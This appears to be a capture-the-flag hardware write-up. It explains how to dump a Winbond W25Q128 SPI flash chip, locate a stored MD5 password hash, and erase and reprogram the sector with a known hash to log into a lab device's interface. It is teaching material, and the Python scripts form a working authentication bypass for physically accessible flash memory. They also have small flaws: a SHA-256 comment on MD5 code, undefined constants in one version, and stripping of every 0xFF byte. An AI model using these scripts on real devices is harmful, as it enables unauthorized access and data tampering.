

<font 
size='6'>Override</font>

28<sup>th</sup>  July 2024 / Document No. D24.102.24

Prepared By: `diogt`

Challenge Author(s): `diogt`

Difficulty: <font color=orange>Medium</font>

Classification: Official

# Synopsis

- The objective of this challenge is to locate and modify the MD5 hash located in the flash memory of an embedded device. To achieve this, it is essential to gain a comprehensive understanding of the flash memory's functionality and architecture by reviewing its Datasheet. Then, by identifying the correct instructions and required command sequences we can overwrite the existing data and replace the MD5 hash with one we know to gain access to the device's debugging interface.

## Description

- We must access the AI module's interface to limit its system permissions and mitigate the cyberpsychosis affecting the city and our team. To achieve this, we need to retrieve some valuable data stored in the module that will enable us to understand its operation. We have identified the integrated circuit (IC) that houses the hashes used in the password verification process, which protects the data. This IC is marked with "W25Q128" on its package. The next step is to find a way to log into the interface, but the MD5 hash seems uncrackable. Is there any other way to bypass this security measure while having physical access to the designated IC pins? We have configured our FT2232HQ board to communicate with that IC via SPI and have created a client file to enable remote communication with the component.


## Skills Required

- Basic datasheet review skills
- Understanding of how flash memories work
- Basic scripting skills

## Skills Learned

- Analyzing Documentation of hardware components
- Interacting with flash memories using  a serial interface

# Enumeration

In this challenge, we are given one file:

- `client.py` : A client file that allows interaction with the flash memory chip using a socket connection.

## Analyzing the flash memory's Datasheet and interacting with it

To begin our analysis we must gather information on how the flash memory operates.  Using the keyword `W25Q128` mentioned in the description and a quick Google search we can locate  the flash memory's manifacturers website.

Navigating to the manufacturer's (Winbond) [website](https://www.winbond.com/hq/product/code-storage-flash-memory/serial-nor-flash/?__locale=en&partNo=W25Q128FV) will lead us to the component's datasheet.


When approaching the datasheet for analysis it requires a focused strategy, starting with identifying key specifications like memory capacity, the memory structure, and available instructions.

### **GENERAL DESCRIPTIONS** 

The first section of the datasheet, General Descriptions, contains a brief but very informative overview of the component and its features. We can highlight areas of interest to keep track of all the useful information.


>  When engaging with hardware components it is very important to be aware of their operating voltages and other electrical characteristics, to avoid damaging the component. In our case, this is of scope as the physical connection is already established.

To summarize the information we learned for the memory:

* Memory Structure
  * 64-KB Blocks, that contain:
    * 4-KB Sectors, that contain:
      * 256-Byte pages
* Erase operations are supported for Blocks and Sectors
* Program operations supported for Pages
* The memory has 3x 256-byte long Security Registers
* Memory supports Software and Hardware Write protection.

### **BLOCK DIAGRAM**

Next, we can review the block diagram to get a better understanding of how the Blocks, Sectors, and Pages are structured. 



### Instructions

Now that we have painted a clear picture of the memory layout we can go back to the Table Of Contents and review the available Instructions. With a quick review of each instruction, we can highlight the ones we are interested in, which include instructions to:

* Read the contents of the memory
* Read the security registers of the memory
* Program pages, to write data back to the memory
* Erase instructions 


#### Read Data (03h)

The read data instruction is pretty straightforward. To use it we simply have to provide the flash memory with:

* The instruction code 0x03
* A 24-bit (or 3-byte) address
* As long as the clock is active the memory will sift out bytes starting with the address we provided and automatically increment it.


Let's attempt now to use the `client.py` to read data from the memory. We can adjust the example command in order to read the first sector of the memory. Then we can display some of the data for a visual inspection.

```python
# Read Logs
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)

print(mem_data)
```

Uppon executing the client.py with the changes above we can observe some log entries.

```
python3 client.py

[31, 234, 35, 32, 82, 161, 0, 243, 194, 172, 137, 182, 153, 164, 51, 142, 6, 0, 215, 218, 210, 108, 85, 196, 195, 57, 0, 73, 70, 82, 8, 181, 39, 0, 230, 136, 174, 9, 132, 35, 123, 0, 

<SNIP>

255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255]
```

It appears that the memory currently contains less than 4096 bytes of data as the majority of the memory we read contains no data as indicated by the empty cells with the decimal value of 255 (0xFF).

#### Understanding the structure of the data

In binary data and memory dumps, certain data sequences are often terminated by a specific byte marker. In many cases, `0x00` (the null byte) is used for this purpose. This byte is crucial in C-based systems and related environments, where it acts as the "end of string" marker. When parsing such data, splitting on the null terminator allows us to break the data into meaningful segments. Lets update the client once more to reflect this.

```python
# Read Data
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)

print(mem_data)

# Split data into entries based on null termination
from itertools import groupby

entries = [list(group) for k, group in groupby(mem_data, lambda x: x == 0) if not k]

for data_entry in entries:
    print(data_entry)
```

If we read the data again and this time split it on every 0x00 null terminetor we will get the following output.

```
[31, 234, 35, 32, 82, 161]
[243, 194, 172, 137, 182, 153, 164, 51, 142, 6]
[215, 218, 210, 108, 85, 196, 195, 57]
[73, 70, 82, 8, 181, 39]
[230, 136, 174, 9, 132, 35, 123]
[204, 96, 239, 224, 144, 240, 203, 155]
[9]
[169, 207, 184, 138, 238, 112, 251]
[39, 40, 195, 173, 73, 218, 227, 158, 42, 106]
[49, 46, 221, 242, 27, 65, 192, 151, 28]
[62, 176, 46, 34]
[118, 121, 100, 84, 97, 233, 253, 174, 50, 217]
[184, 56, 79, 66]
[174]
[115, 156, 63, 224, 198, 204]
[178, 48]
[139, 118, 21, 39]
[92, 1, 239, 245, 227]
[111, 54, 169]
[145, 81, 210, 133, 161]
[157, 194, 133, 189, 145, 157, 201, 193]
```

Each of the entries has different lengths, suggesting that they are stored consecutively in memory without a fixed size or alignment requirement. This indicates that the system does not need to align the data to a specific boundary (e.g., 4-byte or 8-byte boundaries). Instead, it is storing data as tightly packed as possible, which eliminates the need for padding between the entries. 

#### Locating all MD5 hashes in memory

We know that the size of an MD5 hash is 128-bits (or 16 bytes) long, which we can verify with a quick google search.


Updating the client once more to only hold entries that match this size will filter out all the unrelated entries.

```python
# Read Data
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)


# Split data into entries based on null termination
from itertools import groupby

entries = [list(group) for k, group in groupby(mem_data, lambda x: x == 0) if not k]

# Find any entry with a size of 16
target_entry = next((sublist for sublist in entries if len(sublist) == 16), None)

print(target_entry)
```

The client only returns one entry this time, which presumably is the MD5 hash. 

```
[124, 171, 231, 2, 146, 107, 86, 137, 154, 128, 103, 213, 231, 167, 106, 30]
```

#### Modifying Data Entries

The description states that the hash is uncrackable, so we need to find another way to bypass this password protection. Since we have physical access to the flash memory containing the hash used for the password verification a valid apparoach would be to modify the data and change the MD5 hash with one of known value.

>  As our code grows, it's wise to structure it with clearly defined functions and to use variables for instruction codes. This strategy not only streamlines code expansion but also makes debugging more straightforward, enhancing both development speed and code maintainability. 

Before we write the data back we need to:

1.  identify the possition in the memory where the hash is located
2. generate a new MD5 hash
3. replace the data of the original hash (while maintaining the null terminators)

```python
import socket
import json
import binascii
import struct
import copy
import hashlib


# INSTRUCTION BYTES
READ = 0x03
READ_SECURITY_REGISTER = 0x48
PAGE_SIZE = 256

def new_pass(secret_value):
    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(secret_value.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    hashed_value = list(hashed_value)
    return hashed_value

def write_pages(pages):
    for page_no in range(0, len(pages)):
        # Craft packet
        address = [0x00, page_no, 0x00]
        data = pages[page_no]
        packet = [PAGE_PROGRAM] + address + data      
        exchange([WRITE_ENABLE])
        exchange(packet)

def split_pages(original_list, chunk_size):
    return [original_list[i:i + chunk_size] for i in range(0, len(original_list), chunk_size)]


def exchange(hex_list, value=0):

    # Configure according to your setup
    host = '127.0.0.1'  # The server's hostname or IP address
    port = 1337        # The port used by the server
    cs=0 # /CS on A*BUS3 (range: A*BUS3 to A*BUS7)
    
    usb_device_url = 'ftdi://ftdi:2232h/1'

    # Convert hex list to strings and prepare the command data
    command_data = {
        "tool": "pyftdi",
        "cs_pin":  cs,
        "url":  usb_device_url,
        "data_out": [hex(x) for x in hex_list],  # Convert hex numbers to hex strings
        "readlen": value
    }
    
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))
        
        # Serialize data to JSON and send
        s.sendall(json.dumps(command_data).encode('utf-8'))
        
        # Receive and process response
        data = b''
        while True:
            data += s.recv(1024)
            if data.endswith(b']'):
                break
                
        response = json.loads(data.decode('utf-8'))
        #print(f"Received: {response}")
    return response

# Read Data
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)


# Split data into entries based on null termination
from itertools import groupby

entries = [list(group) for k, group in groupby(mem_data, lambda x: x == 0) if not k]

# Find any entry with a size of 16
target_entry = next((sublist for sublist in entries if len(sublist) == 16), None)

print(target_entry)

# Find the start position of the target_entry in the original list
if target_entry:
    # Convert the list to a string for easier pattern matching
    input_str = ' '.join(map(str, mem_data))
    target_str = ' '.join(map(str, target_entry))

    start_pos = input_str.find(target_str)
    # Calculate the index by counting spaces
    index = input_str[:start_pos].count(' ')
else:
    index = None

print("Target sublist:", target_entry)
print("Start position in original hash:", index)

# Generate new hash
new_hash_list = new_pass('diogt')
print('New hash: ', new_hash_list)
```

Now we have the new MD5 hash ready to be programmed into the memory located where the original hash is located.

#### Writing the modified logs back to memory

The last step is to write the data back to the memory. Let's go back to the datasheet to see how we can achieve that.

##### Page Program (02h)

As we saw earlier in the General Description, we can program up to 256 bytes at a time (one page). To achieve that we can use the Page Program instruction.


This instruction has some dependencies, unlike the read commands we saw so far. 

* A Write Enable instruction must be executed before the device will accept the Page Program Instruction (Status Register bit WEL= 1). 
* Data can be programmed at previously erased (FFh) memory locations. 

As highlighted in <font color=#FFA500)>orange</font>, in some cases page program can work without erasing the page, which is how the log_event() operates, with the assumption that the range to be written is already erased (0xFF). 

##### Write Enable (06h)

The write enable command is pretty straightforward we just need to send the instruction byte.


##### Erase Sector (20h)

Searching for all the available erase commands we can see that the smaller chunk of data we can erase is Sectors. This is also referenced in the General Description of the memory. 


The instruction again is pretty straightforward as we just need to enter the instruction code followed by a 24-bit address. Now that we have all the instruction codes and know how to invoke them we can get back to our script to implement them. 

> We will have to override all the data in the sector after we erase it but we will only alter the MD5 hash entry to avoiding damaging the device or breaking any fucntionality of the data entries we don't have any information about.

```python
import socket
import json
import binascii
import struct
import copy
import hashlib


# INSTRUCTION BYTES
WRITE_ENABLE = 0x06
SECTOR_ERASE = 0x20
READ = 0x03
READ_SECURITY_REGISTER = 0x48
PAGE_PROGRAM = 0x02

PAGE_SIZE = 256

def new_pass(secret_value):
    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(secret_value.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    hashed_value = list(hashed_value)
    return hashed_value

def write_pages(pages):
    for page_no in range(0, len(pages)):
        # Craft packet
        address = [0x00, page_no, 0x00]
        data = pages[page_no]
        packet = [PAGE_PROGRAM] + address + data      
        exchange([WRITE_ENABLE])
        exchange(packet)

def split_pages(original_list, chunk_size):
    return [original_list[i:i + chunk_size] for i in range(0, len(original_list), chunk_size)]


def exchange(hex_list, value=0):

    # Configure according to your setup
    host = '127.0.0.1'  # The server's hostname or IP address
    port = 1337        # The port used by the server
    cs=0 # /CS on A*BUS3 (range: A*BUS3 to A*BUS7)
    
    usb_device_url = 'ftdi://ftdi:2232h/1'

    # Convert hex list to strings and prepare the command data
    command_data = {
        "tool": "pyftdi",
        "cs_pin":  cs,
        "url":  usb_device_url,
        "data_out": [hex(x) for x in hex_list],  # Convert hex numbers to hex strings
        "readlen": value
    }
    
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))
        
        # Serialize data to JSON and send
        s.sendall(json.dumps(command_data).encode('utf-8'))
        
        # Receive and process response
        data = b''
        while True:
            data += s.recv(1024)
            if data.endswith(b']'):
                break
                
        response = json.loads(data.decode('utf-8'))
        #print(f"Received: {response}")
    return response

# Read Data
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)


# Split data into entries based on null termination
from itertools import groupby

entries = [list(group) for k, group in groupby(mem_data, lambda x: x == 0) if not k]

# Find any entry with a size of 16
target_entry = next((sublist for sublist in entries if len(sublist) == 16), None)

print(target_entry)

# Find the start position of the target_entry in the original list
if target_entry:
    # Convert the list to a string for easier pattern matching
    input_str = ' '.join(map(str, mem_data))
    target_str = ' '.join(map(str, target_entry))

    start_pos = input_str.find(target_str)
    # Calculate the index by counting spaces
    index = input_str[:start_pos].count(' ')
else:
    index = None

print("Target sublist:", target_entry)
print("Start position in original hash:", index)

# Generate new hash
new_hash_list = new_pass('diogt')
print('New hash: ', new_hash_list)

# split memory into two parts, excluding the original MD5 Hash
part1 = mem_data[:index]
part2 = mem_data[index+16:]

# Add the new hash
new_mem_data = (part1 + new_hash_list + part2)

# Clean the memory and remove any empty bytes (0xFF)
new_mem_data = [x for x in new_mem_data if x != 255]


# split data into pages
pages = split_pages(new_mem_data, PAGE_SIZE)

print(f'Program pages with new logs..')

# ERASE SECTOR
exchange([WRITE_ENABLE])
exchange([SECTOR_ERASE, 0x00, 0x00, 0x00])

# Write modified data entires (multiple page program instructions)
write_pages(pages)
```

> WARNING: Be careful when altering data in a flash memory with either program or erase commands as a wrong command might result in permanent loss of the data! **Always** create a **local copy** of all the **original memory contents**. With a local dump of the memory, you can always revert to the memory's original state. 
>
> In the scope of the challenge, u can simply restart the docker instance, but in real life, this is not the case!


```
python3 client.py

[124, 171, 231, 2, 146, 107, 86, 137, 154, 128, 103, 213, 231, 167, 106, 30]
Target sublist: [124, 171, 231, 2, 146, 107, 86, 137, 154, 128, 103, 213, 231, 167, 106, 30]
Start position in original hash: 1025
New hash:  [112, 116, 31, 139, 232, 36, 51, 144, 217, 61, 240, 151, 203, 118, 55, 148]
Program pages with new logs..
```


# Solution

Finally executing the script with all the pieces in place will be successful. Now we can connect to the debugging interface located on the second port to retrieve our flag

```
nc 0.0.0.0 1338

Remote Command and Control Interface
enter password: diogt
[*] Connecting to interface..
[*] Retrieving data..
[*] Data: HTB{510w1n9_<SNIP>
```
